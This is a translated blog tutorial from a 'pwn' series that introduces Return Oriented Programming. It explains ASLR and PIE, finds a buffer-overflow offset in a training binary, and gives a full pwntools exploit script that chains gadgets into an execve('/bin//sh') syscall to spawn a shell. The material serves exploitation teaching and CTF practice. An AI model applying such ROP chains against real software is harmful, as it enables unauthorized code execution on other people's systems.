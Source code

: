 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
slug: "pwn_3of4_saperliropette"
date: 2018-05-09
status: "translated"
description: "Introduction to Return Oriented Programming (ROP) and practical example."
---
```


> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable [here](/hacking/pwn_1of4_buffer_overflow/slides_conf_123_pwned.pdf) and the video (French only) here :

{{< youtube hmt8M9YLwTg >}}

## Pwn Road, third stop, welcome aboard!

Yesterday, the simple buffer overflow and ret2libc, today, ROP, or Return Oriented Programming, and tomorrow... Tomorrow the conquest of the world!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

I left you yesterday on the ret2libc, which, seen from afar, consists in picking in the libc the functions that interest us the most. Except that this attack is not possible in the case where the program is compiled statically, and hardly feasible if the ASLR is enabled. Today we will discover the ROP that allows us to bypass these protections.

It looks more and more like the cat and mouse game, so... \
Follow the leader cat!

## ASLR and PIC details

Before we start, a little feedback on these sometimes confusing protections.

The ASLR is configured through `/proc/sys/kernel/randomize_va_space`. It can be set to 0=off, 1=on (stack and heap), 2=on (1 + .data). The value 2 being the new standard being adopted, which is already effective for the most part.

The ASLR therefore leaves a whole non-randomized attack surface. So what had to happen happened: attacks using the sections .text, .data, .got, .plt, ...

More information on the different sections and structure of an ELF here: [ELF_format](https://www.cs.stevens.edu/~jschauma/631A/elf.html)

As the ASLR is not sufficient, new protections have been put in place: PIC / PIE (Position Independent Code / Executable). The mainidea is simple... How about we randomize... EVERYTHING?!

ROP works with partial or total ASLR, but is countered by the latest measure...

Following at the next countermeasure! è.é

## Presentation of the technique

Return... Oriented... Programming...

Um um... Programming... With... Return? °^°'

We're going to take advantage of the fact that the .text section of the program is still in the same place to pick up a lot of little pieces of code called gadgets, and assemble them to do our exploit. The exploit is therefore a series of addresses pointing at assembler, so in the absolute, we can do everything with it. The only limit? The gadgets that are available in the program...

Even if we "can do everything", the most common strategy remains to do as in article 1 where we generate a shellcode which, via a syscall, allows us to execute a program of our choice.

An important thing to note here: We need gadgets. Gadgets are code that doesn't move. Libraries are always relocated. So a program based on libraries will have a much smaller attack surface than a program compiled in static that would contain all the code it needs. Also, the larger the program will be and the more complex actions it'll do, the more likely you'll find interesting stuff inside. Capich? Noice!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Now, let's go more into detail about gadgets, shall we?

They must all meet a major criterion: End with a ret instruction.

It is this criterion that makes the attack possible. Indeed, when we control the instruction pointer, we will make it execute a first gadget. When it'll reach the final ret instruction, the previous saved instruction pointer will be restored the execution will continue on the stack (which we just overflowed). But the next address will be the one of the second gadget and so on.

However, if your gadget ends with a ret, but contains instructions that modify the execution flow of the program, it may break your exploit. So no `call`, no `leave`, no `double ret`, no arms, and above all: no chocolate.

Many tools are available to list the gadgets of an executable, such as ROPgadget, Ropper, XRop, ...

## Elaboration of the exploit

The studied binary is downloadable [here](/hacking/pwn_3of4_saperliropette/vuln)

First of all, we look at what we're dealing with: x86-64, compiled in static, full ASLR. Okay!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

You're used to it now, the classic one:

Understand how the program works, find the crash, then the offset!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Here again, we see that we crash on a ret... Do we control RSP? Yes! Offset? 264!

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Small reminder, ret has the effect of placing what RSP points to (so the last element of the stack), in RIP. So we have RIP under our control. So... RIP!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

We then use the ropgadget tool which offers us a superb ropchain made with our vulnerable program:

```shell
$ ropgadget --binary vuln --ropchain
```

The output is long (verbose), I only put part of it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

So we make it a python file, our exploit is the following:

```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

Isn't it beautiful all this automation? Well, it doesn't always work, but when it works, the time saved is huge, especially in CTF... ;)

We will now exploit it:

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell! :D

Small detail that kills, we see here that $0 (the name of the executed program) is `bash`, whereas in our ropchain, we had `/bin//sh` (which is understood as `/bin/sh`). But that's normal, because on my machine, `/bin/sh` is a symbolic link that points to bash! My real sh is `/usr/bin/sh`.

 > But... That doesn't match the previous exploits?!

Whoa! Whoa! One that follows! Yes, indeed...\
More information on this strangeness our dear beloved friens Pixis's website : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

That's it for this short introduction to ROP, I hope it blown your mind as much as mine when I found out about this attack. You now have many cards to play with: BOF / shellcode / ret2libc / ROP / brain / ...

That is why our next meeting will be based on the analysis of a more complete program. So we're going to conclude this series and...

Blow up the world! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

See you soon for even more pwn!
